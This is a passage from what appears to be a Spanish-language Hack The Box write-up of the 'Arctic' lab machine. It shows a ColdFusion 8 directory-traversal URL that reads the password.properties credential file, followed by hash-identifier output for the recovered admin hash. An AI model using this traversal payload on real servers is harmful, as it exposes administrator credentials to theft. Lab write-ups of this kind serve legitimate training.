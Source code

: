 ```bash
Shellcodes: No Results
Papers: No Results
```

De acuerdo con el exploit, existe la posiblidad de acceso a la siguiente ruta: `http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en`; ingresando, nos encontramos el panel de administración y el hash de la contraseña. Podriamos trata de identificar que tipo de hash se trata mediante el uso de la herramienta `hash-identifier`

![](/assets/images/htb-arctic/arctic_pass.png)

```bash
❯ hash-identifier -h
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
                                
 Not Found.          
--------------------------------------------------
 HASH: 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
                                                                 
Possible Hashs:            
[+] SHA-1                                                        
[+] MySQL5 - SHA-1(SHA-1($pass))
```
